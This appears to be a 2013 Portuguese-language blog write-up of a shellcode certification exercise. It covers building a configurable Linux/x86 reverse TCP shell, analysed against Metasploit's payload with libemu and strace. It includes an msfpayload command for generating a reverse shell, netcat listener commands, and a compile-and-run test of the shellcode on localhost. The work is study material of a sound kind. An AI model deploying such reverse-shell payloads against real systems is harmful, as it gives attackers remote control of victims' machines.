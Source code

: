 ```yaml
---
layout: post
title: SLAE - 2nd Assignment - Shell Reverse TCP
date: '2013-03-20T00:40:00.000-03:00'
author: geyslan
categories: blog
excerpt: ""
tags: [slae, shellcode, linux, code, assembly, hacking, reverse engineering, portuguese]
share: true
modified: '2013-06-06T22:44:21.128-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1069667985052517024
blogger_orig_url: http://www.hackingbits.com/2013/03/slae-2nd-assignment-shell-reverse-tcp.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind
TCP](/blog/slae-1st-assignment-shell-bind-tcp)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/blog/hacking-do-dia-shell-bind-tcp-random)<br>
\*/*

<!--more-->

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/2nd.assignment)*.

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-833.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

##Segundo Exame

###Criar um shellcode de Shell Reverse TCP

- Executar um shell ao conectar no host reverso.
- Tornar fácil a configuração dos IP e porta.

Como material, analisar o linux/x86/shell_reverse_tcp do Metasploit usando o libemu.

##libemu - sctest - strace - man

Comecei gerando o fluxograma do shellcode do Metasploit.

{% highlight console %}
$ msfpayload linux/x86/shell_reverse_tcp LHOST=127.0.0.1 R | /opt/libemu/bin/sctest -Ss 100000 -vvv -G shell_reverse_tcp_metasploit.dot

$ dot shell_reverse_tcp_metasploit.dot -T png -o shell_reverse_tcp_metasploit.png
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp_metasploit.png" caption="Fluxograma do shell_reverse_tcp_metasploit" %}

Vê-se que, diferentemente dos shell_bind_tcp nos quais trabalhamos nos posts
anteriores, o shell_reverse_tcp, logo após a criação do socket (socket), faz a
duplicação (dup2) dos files descriptors e já efetua a conexão (connect) nos
endereço e porta definidos para finalmente executar (execve) o "/bin/sh".

Usei também o [strace](http://linux.die.net/man/1/strace) para analisar o
[netcat](http://linux.die.net/man/1/nc), como complemento ao libemu. O que me me
poupou tempo, pois não precisei reconstruir o binário para entender melhor a
syscall [connect](http://linux.die.net/man/3/connect); e nem é necessário
comentar que o uso do man deixou o meu .bash_history um pouquinho mais gordo. =D

{% highlight console %}
$ nc -l 127.0.0.1 55555
{% endhighlight %}

Em outro terminal.

{% highlight console %}

# strace -e socket,connect nc 127.0.0.1 55555
...
socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(55555), sin_addr=inet_addr("127.0.0.1")}, 16) = -1 EINPROGRESS (Operation now in progress)
{% endhighlight %}

Com as novas informações anotadas e revisadas, construí de primeira o shellcode
enxuto em assembly nasm.

{% gist geyslan/5201682 %}

Por conta da possibilidade trivial de se configurar a porta e o IP, o shellcode
só estará livre de null-bytes caso esses valores não tenham numeração em hexa
x00. Entretanto, se o null-byte realmente impossibilitar a utilização do
shellcode, temos outras maneiras de darmos bypass. Em próximos posts veremos
isso.

O shellcode final teve um aumento de 4 bytes, ficando com  72 (metasploit = 68).
Esse acréscimo se deu pela propriedade da configuração do IP e da Porta nos seus
primeiros bytes. Mesmo com as instruções diferentes, o resultado foi igual.
Vejam.

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/2nd.assignment/shell_reverse_tcp.png" caption="Fluxograma do shell_reverse_tcp" %}

###Testando

{% highlight console %}
$ gcc -m32 -fno-stack-protector -z execstack shellcode.c -o shellcode
{% endhighlight %}

*Terminal host*
{% highlight console %}
$ nc -l 127.1.1.1 55555
{% endhighlight %}

*Terminal cliente*
{% highlight console %}
$ ./shellcode
{% endhighlight %}

*Terminal host novamente*
{% highlight console %}
$ netstat -anp | grep shell
tcp        0      0 127.0.0.1:51600   127.1.1.1:55555   ESTABLISHED   976/shellcode
{% endhighlight %}

##Reversing (Gotcha)

Mais um shellcode construído: Shell Reverse TCP (Linux/x86) com IP e porta
facilmente configuráveis (segundo ao quinto e nono ao décimo byte,
respectivamente).

*P.S.* Se você encontrar alguma forma de reduzir a quantidade de bytes do
shellcode apresentado, entre em contato para discutirmos. Com todo prazer,
farei as alterações colocando os devidos créditos.

*[]*

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[libemu](http://libemu.carnivore.it/)<br>
[Metasploit](http://www.metasploit.com/)<br>
[Metasploit Unleashed - Offensive Security](http://www.offensive-security.com/metasploit-unleashed/Main_Page)<br>
[Berkeley Sockets](https://en.wikipedia.org/wiki/Berkeley_sockets)<br>
[Shell-Storm](http://www.shell-storm.org/)<br>
[exploit-db](http://www.exploit-db.com/)<br>
[Project Shellcode](http://www.projectshellcode.com/)<br>
[Endianness](https://en.wikipedia.org/wiki/Endianness)<br>
[Linux Assembly](http://asm.sourceforge.net/)<br>
[Introdução à Arquitetura de Computadores - bugseq team - Tiago Natel (i4k)](https://code.google.com/p/bugsec/wiki/AssemblyArqComp)<br>
[Construindo Shellcodes - Victor Mello (m0nad)](http://0fx66.com/files/zines/cogumelo-binario/edicoes/1/ConstruindoShellcodes.txt)<br>
[Understanding Intel Instruction Sizes - William Swanson](http://www.swansontec.com/sintel.html)<br>
[The Art of Picking Intel Registers - William Swanson](http://www.swansontec.com/sregisters.html)<br>
[Smashing The Stack For Fun And Profit - Aleph One](http://insecure.org/stf/smashstack.html)<br>
[Get all shellcode on binary - commandlinefu](http://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump)<br>
